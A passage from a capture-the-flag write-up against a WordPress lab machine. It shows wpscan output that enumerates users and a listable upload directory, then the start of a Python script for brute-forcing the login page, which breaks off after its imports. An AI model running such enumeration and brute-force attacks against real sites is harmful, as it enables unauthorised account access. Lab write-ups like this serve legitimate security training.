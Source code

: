 ![](/assets/images/lemonsqueezy/screenshot-4.png)

Then I enumerated the wordpress CMS, found a writable web directory and two users.

```bash
root@kali:~$ wpscan --url http://lemonsqueezy/wordpress/ -e vp,vt,u
...
[+] Upload directory has listing enabled: http://lemonsqueezy/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)                                      
 | Confidence: 100%
 ...
[i] User(s) Identified:

[+] lemon
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://lemonsqueezy/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

I developed a python script to brute force the login page.

```bash
#!/usr/bin/env python3

import requests
import os
import threading
from queue import Queue
from colorama import init,Fore

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

url="http://lemonsqueezy/wordpress/wp-login.php"
```